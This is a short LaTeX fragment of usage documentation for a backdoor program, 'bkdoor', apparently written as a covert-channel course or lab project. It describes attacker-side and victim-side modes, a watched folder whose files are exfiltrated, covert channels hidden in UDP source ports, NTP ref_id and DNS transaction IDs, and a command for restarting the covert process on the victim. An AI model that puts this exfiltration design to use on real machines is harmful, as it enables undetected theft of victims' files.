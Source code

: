 \documentclass[titlepage]{article}
\begin{document}
The available command-line flags are:
-c : Use this option to activate Client mode. This should be used on the attacker's machine.
-s : Use this option to activate Server mode. This should be used on the victim machine.
-h : Use this option to see a short version of the program usage instructions.
-i <arg> : Use this option to specify the remote host that the machine will be communicating with. For the Client, this will be the server's IP. For the Server, this will be the Client's IP.
-w <arg> : Use this option to specify the folder to watch for exfiltration. Any files created or modified in this folder will be sent to the client.
-x <arg> : Use this option to specify the covert channel to use. 'u' for UDP source port, 'n' for NTP ref\_id, 'd' for DNS transaction id.

If you wish to change the watch folder, the easiest way to do this remotely is to use the ps utility to find your covert process on the victim machine and then execute 'kill <process id>; ./bkdoor -s -w <path> -i <ip> ... other options'.

\clearpage

\section{Testing Design}

The majority of the testing will be carried out from the server (victim) side as this is where monitoring.\\
\end{document}
